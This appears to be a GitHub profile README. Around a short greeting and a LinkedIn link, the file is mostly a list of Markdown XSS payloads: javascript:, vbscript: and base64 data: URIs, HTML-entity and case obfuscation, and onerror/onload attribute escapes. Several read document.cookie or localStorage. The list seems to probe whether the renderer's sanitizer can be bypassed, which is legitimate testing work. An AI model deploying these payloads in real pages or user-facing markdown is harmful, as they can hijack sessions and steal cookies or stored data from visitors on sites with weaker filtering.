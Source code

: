 ### Hi there 👋

- 🌱 I’m currently learning Flutter...

More Details, see [LinkedIn](https://www.linkedin.com/in/prachya-saechua/) 

hello [hack](javascript:javascript:alert('xss'))
```javascript
> hello <a name="n"
> href="javascript:alert('xss')">*you*</a>
```
%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A

[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
![Escape SRC - onerror]("onerror="alert('ImageOnError'))
[XSS](javascript:prompt(document.cookie))
[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS]: (javascript:prompt(document.cookie))
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0aprompt(1))
[XSS](javascript://%0d%0aprompt(1);com)
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)


<!--[XSS](javascript:alert&#65534;(0&#41;)-->

[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](javascript:confirm(1)
[XSS](javascript://www.google.com%0Aprompt(1))

[XSS](javascript://%0d%0aconfirm(1);com)
[XSS](javascript:window.onerror=confirm;throw%201)
[XSS](�javascript:alert(document.domain&#41;)
![XSS](javascript:prompt(document.cookie))\
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
![XSS'"`onerror=prompt(document.cookie)](x)

![XSS'"`onerror=prompt(document.cookie)](javascript://%0d%0aprompt(1);com)\


![Escape SRC - onload](onload="alert('ImageOnLoad'))

[XSS](&#65533;(0&#41;)


<!--
**blackb1rd/blackb1rd** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
